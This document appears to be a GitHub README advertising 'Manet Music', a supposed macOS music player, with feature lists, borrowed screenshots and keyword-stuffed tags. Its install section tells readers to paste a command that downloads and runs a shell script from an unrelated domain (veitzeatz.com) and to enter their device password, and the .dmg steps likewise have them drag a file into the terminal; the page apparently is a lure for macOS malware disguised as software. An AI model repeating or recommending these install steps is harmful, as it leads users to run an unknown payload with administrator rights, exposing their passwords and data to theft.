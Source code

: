 # 🎶 Manet Music — Elegant Music Player for macOS

**Manet Music** is a beautifully designed music player for macOS that merges elegance, simplicity, and performance. Inspired by the timeless artistry of Édouard Manet, this lightweight music app offers a minimal interface with powerful playback capabilities, making it the perfect companion for focused listening and aesthetic enjoyment on Mac.

Whether you’re enjoying classical compositions, modern playlists, or creating your own audio collection, Manet Music brings harmony to your digital soundscape.

---

## ✅ Download Manet Music for macOS  
[![Download Manet Music](https://img.shields.io/badge/Download-Manet_Music-blueviolet)](https://manet-music-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Manet Music?

Manet Music is a sleek and modern macOS music player with a visual theme inspired by impressionist painter Édouard Manet. It emphasizes clean design, intuitive controls, and high-fidelity audio playback. Designed with Mac users in mind, it integrates perfectly into the macOS ecosystem, offering an elegant and distraction-free way to experience music.

---

## ✨ Features

- 🎵 Minimalist interface focused on pure listening experience  
- 🎨 Aesthetic inspired by Manet’s art and impressionist tones  
- 📁 Simple playlist creation and management  
- 🎧 High-quality audio playback with support for multiple formats (MP3, FLAC, AAC, WAV)  
- 🖥 Optimized for Apple Silicon and macOS Ventura+  
- 🌙 Light and Dark mode support  
- 🖱 Seamless drag-and-drop music import  
- 🔄 Background playback and macOS media key support  

---

## 💡 Why Use Manet Music?

- 🖌 A refined music player with an art-inspired interface  
- 🎶 Focus on your music without overwhelming features  
- ⚙️ Built natively for macOS with excellent performance  
- 📂 Organize and play local music with ease  
- 🎼 Ideal for classical, instrumental, and curated music collections  

---

[![Download Manet Music](https://img.shields.io/badge/Download-Manet_Music-blueviolet)](https://manet-music-download-mac.github.io/.github)

---

## 🖼 Preview

![Manet Music Screenshot 1](https://tilosoftware.io/_astro/macos-light@2x.4GuNmZyx_ZnGFLi.webp)  
![Manet Music Screenshot 2](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/23/94/c9/2394c98b-6dad-3ff8-502e-d3e67b5f2a83/v1.13-1.png/643x0w.jpg)

---

## 📌 Tags

music in the tuileries manet, berthe morisot by manet, the spanish singer manet,  
manet music, edouard manet music in the tuileries, manet goya, manet tuileries,  
music in the tuileries gardens by edouard manet, the spanish singer edouard manet,  
Manet Music mac, Manet Music download, Manet Music download mac

